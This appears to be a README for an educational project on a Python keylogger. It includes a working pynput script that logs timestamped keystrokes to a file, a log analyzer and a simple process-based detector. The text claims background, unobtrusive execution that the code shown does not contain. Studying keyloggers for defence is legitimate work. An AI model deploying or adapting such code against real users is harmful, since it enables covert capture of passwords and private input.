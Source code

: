 # Development and Analysis of a Keylogger using Python
<p align="center">
  <img src=".github/NIELIT_logo.jpg" alt="NIELIT Logo" width="200"/>
</p>
## Executive Summary
A Python-based keylogger was developed and analyzed to understand its functionality, potential misuse, and defense strategies in cybersecurity. 
The project highlights both the technical aspects of creating such tools and the ethical implications of their usage. 
By studying keylogger behavior, the project emphasizes the importance of awareness, detection, and mitigation strategies to strengthen system security.

## Abstract
This project focuses on the development and analysis of a simple keylogger application using Python for educational and research purposes in cybersecurity. 
The implementation begins with utilizing Python libraries such as `pynput` to capture keyboard events in real time. 
The captured keystrokes are stored in a log file, allowing the monitoring of user input for analysis.

The project explores techniques for running the keylogger in the background, ensuring it operates unobtrusively without interrupting normal system usage. 
Additional functionality, such as time-stamping keystrokes and custom log file storage paths, is also implemented to enhance usability.

On the analytical side, the project examines the potential security implications of keyloggers, including their use in both ethical research and malicious attacks. 
It highlights countermeasures such as antivirus detection, system monitoring tools, and user awareness programs to mitigate risks.

Overall, this project serves as a practical demonstration of how keyloggers function while also emphasizing ethical considerations, 
defensive strategies, and the importance of understanding such tools in the field of cybersecurity.

---

## Introduction
The rise of cyber threats has made cybersecurity an essential discipline in the digital age. 
Among the numerous tools used by attackers, keyloggers remain one of the most effective means of compromising sensitive information. 
A keylogger records keystrokes typed on a keyboard and may be used for malicious purposes such as stealing credentials, financial information, or confidential data. 

However, studying keyloggers is equally important in ethical hacking and cybersecurity education to understand how attackers operate and how to defend against such threats. 
This project introduces the design and implementation of a simple keylogger using Python, providing insights into its development, operation, and associated risks.

---

## Methodology
The methodology for this project involved the following steps:

1. **Environment Setup**: Python environment was prepared with required libraries such as `pynput`.
2. **Implementation of Keylogger**: A script was developed to capture keystrokes in real time and store them in a log file.
3. **Enhancements**: Features such as time-stamping and background execution were added.
4. **Testing**: The script was tested on a controlled environment to validate its accuracy and efficiency.
5. **Analysis**: The behavior of the keylogger was studied to identify potential risks and countermeasures.

This approach ensured that the project remained within ethical and educational boundaries, avoiding misuse while demonstrating practical functionality.

---

## Code Implementation

### 🔹 `demo_keylogger.py`
```python
from pynput import keyboard
import logging
from datetime import datetime

# Log file configuration
log_file = "key_log.txt"
logging.basicConfig(filename=log_file, level=logging.DEBUG, format="%(asctime)s: %(message)s")

def on_press(key):
    try:
        logging.info(f"Key pressed: {key.char}")
    except AttributeError:
        logging.info(f"Special key pressed: {key}")

def on_release(key):
    if key == keyboard.Key.esc:
        return False

with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

### 🔹 `log_analyzer.py`
```python
# Reads log file and prints analysis
def analyze_logs(log_file="key_log.txt"):
    try:
        with open(log_file, "r") as f:
            lines = f.readlines()
            print(f"Total keystrokes recorded: {len(lines)}")
            print("Sample log entries:")
            print("".join(lines[:10]))
    except FileNotFoundError:
        print("Log file not found.")

if __name__ == "__main__":
    analyze_logs()
```

### 🔹 `detector.py`
```python
import psutil

# Detect if 'python' process is running keylogger
def detect_keylogger():
    suspicious = []
    for proc in psutil.process_iter(['pid', 'name', 'cmdline']):
        try:
            if "python" in proc.info['name'].lower() and "keylogger" in " ".join(proc.info['cmdline']).lower():
                suspicious.append(proc.info)
        except Exception:
            pass
    if suspicious:
        print("⚠️ Potential Keylogger Detected:", suspicious)
    else:
        print("✅ No keylogger detected.")

if __name__ == "__main__":
    detect_keylogger()
```

---

## Results and Analysis
The developed Python keylogger successfully captured keystrokes and stored them in a designated log file. 
The tool was able to operate in the background without disrupting normal system operations.

Key Observations:
- The keylogger reliably recorded user inputs including letters, numbers, and special characters.
- Time-stamping provided contextual information useful for forensic analysis.
- Running in the background made it unobtrusive and difficult to detect for an untrained user.

The project confirmed the potential dangers of keyloggers when misused, including identity theft, data breaches, and unauthorized surveillance. 
It emphasized the importance of employing defensive measures such as updated antivirus software, intrusion detection systems, and strong user awareness programs.

---

## Conclusion
This project successfully demonstrated the development and operation of a keylogger using Python. 
It provided insights into how such tools function, their potential malicious use, and the ethical importance of studying them in the context of cybersecurity. 

Future work could involve extending the project to analyze detection techniques using machine learning and exploring more advanced countermeasures. 
Ultimately, this project underscores the balance between offensive cybersecurity research and defensive application in real-world scenarios.

---

## References
1. Alazab, M. (2015). Malware detection and mitigation in computer networks: Keyloggers and spyware. IEEE Communications Surveys & Tutorials.
2. Python Software Foundation. (2023). Python Documentation. Available at: https://docs.python.org
3. Pynput Library Documentation. (2023). Available at: https://pynput.readthedocs.io/
4. Stallings, W. (2018). Computer Security: Principles and Practice. Pearson.
5. SANS Institute. (2022). Keylogger Threats and Defensive Strategies. Available at: https://www.sans.org/
